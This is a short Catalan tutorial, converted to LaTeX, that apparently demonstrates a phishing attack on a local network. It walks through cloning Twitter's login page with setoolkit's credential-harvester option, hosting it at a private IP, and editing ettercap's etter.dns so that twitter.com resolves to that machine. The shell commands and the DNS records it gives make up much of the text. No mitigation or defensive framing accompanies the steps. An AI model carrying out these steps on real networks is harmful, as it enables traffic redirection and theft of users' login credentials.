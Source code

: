 \documentclass[]{article}
\begin{document}
Demostració ràpida de com DNS pot ser suplantat utilitzant Kali Linux, i
com el tràfic pot ser redirigit a una pàgina fraudulenta.

Hem decidit fer phishing la pàgina de Twitter utilitzant una eina
anomenada ``setoolkit'' i fer un clonatge de la pàgina de Twitter.

Posteriorment suplantar el registre DNS en la que apuntava a twitter.com
a la nostra màquina, on hi tenim un allotjat una pàgina fraudulenta
utilitzant l'eina.

\emph{Website Attack Vectors -\textgreater{} Creditials Harvestor
-\textgreater{} Clone website / Use Web Template}

Utilitzarem un ``toolkit'' anomenat ``setooklit'' que es permetrà fer
phishing a una pàgina i fer un clonatge perfecte.

\texttt{[image: ./tex2pdf.-39d081dc02974bfa/30c24d2469ccc294b42630c6115feaeac6b7f5f9.png]}

Podem fer un clonatge d'una pàgina web o també té ``templates'' pre
definides. En aquest exemple utilitzarem el template de
https://www.twitter.com

Tarda una estona.

\texttt{[image: ./tex2pdf.-39d081dc02974bfa/44bccdec6ac0bd4dd15cfeb35c4ef1620f40c6c4.png]}

\texttt{[image: ./tex2pdf.-39d081dc02974bfa/53a2dc3d1e97079d48a914c5d363d4ed4b37761a.png]}

Com podem observar la pàgina de Twitter està a la nostra IP
10.200.243.137 al port 80.

Ara necessitem que tot el tràfic per a twitter.com sigui redirigit a la
meva IP. Utilitzarem DNS Spoof que està disponible a ETTERCAP.

S'ha de canviar el contigut del fitxer etter.dns per a que twitter.com
apunto a la nostra IP.

\texttt{apt-get\ install\ mlocate}

\texttt{updatedb}

\texttt{locate\ etter.dns}

┌──(root㉿osboxes)-{[}/home/anonymous{]} └─\# locate etter.dns
/etc/ettercap/etter.dns /usr/share/ettercap/etter.dns.examples

\texttt{cp\ /etc/ettercap/etter.dns\ /etc/ettercap/etter.dns.original}

\texttt{vi\ /etc/ettercap/etter.dns}

\begin{verbatim}
*.twitter.com   A       10.200.243.137
www.twitter.com PTR     10.200.243.137

www.alor.org    A       127.0.0.1
www.naga.org    A       127.0.0.1
\end{verbatim}
\end{document}
